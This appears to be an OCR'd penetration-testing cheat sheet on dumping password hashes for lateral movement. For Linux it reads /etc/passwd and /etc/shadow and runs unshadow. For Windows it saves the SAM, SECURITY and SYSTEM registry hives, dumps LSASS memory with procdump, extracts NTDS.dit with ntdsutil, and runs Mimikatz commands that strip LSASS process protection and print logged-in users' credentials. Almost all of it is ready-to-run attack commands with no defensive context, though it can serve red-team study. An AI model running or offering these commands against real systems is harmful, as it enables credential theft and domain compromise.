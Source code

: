   
Pivoting
[https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)
  
# Dumping Hashes
  
## Linux
- cat /etc/passwd ⇒ users
    
- cat /etc/shadow ⇒ password hashes
    
- unshadow /etc/passwd /etc/shadow > hashes.txt ⇒ combine for hash cracking
    
  
## Windows
[https://www.thehacker.recipes/ad/movement/credentials/dumping](https://www.thehacker.recipes/ad/movement/credentials/dumping)
Hashes are stored in three places:
- SAM ⇒ local user accounts
    
- LSA ⇒ domain user accounts
    
- NTDS.dit ⇒ everyone on domain (DC only)
    
  
### Locally
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
  
Task Manager → Right click lsass.exe → Create dump file
procdump -accepteula -ma lsass.exe lsass.dmp
  
Control Panel → User Accounts → Credential Manager
  
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
  
### Mimikatz
- token::elevate
    
- privilege::debug
    
  
- lsadump::sam /patch ⇒ SAM hashes
    
- lsadump::lsa /patch OR lsadump::lsa /inject ⇒ LSA hashes
    
- sekurlsa::msv ⇒ hashes in LSASS memory
    
- sekurlsa::logonpasswords ⇒ hashes for users logged in since last reboot
    
- if this returns an error:
    
!+
!processprotect /process:lsass.exe /remove
try again
- sekurlsa::credman ⇒ hashes in Windows Credential Manager
    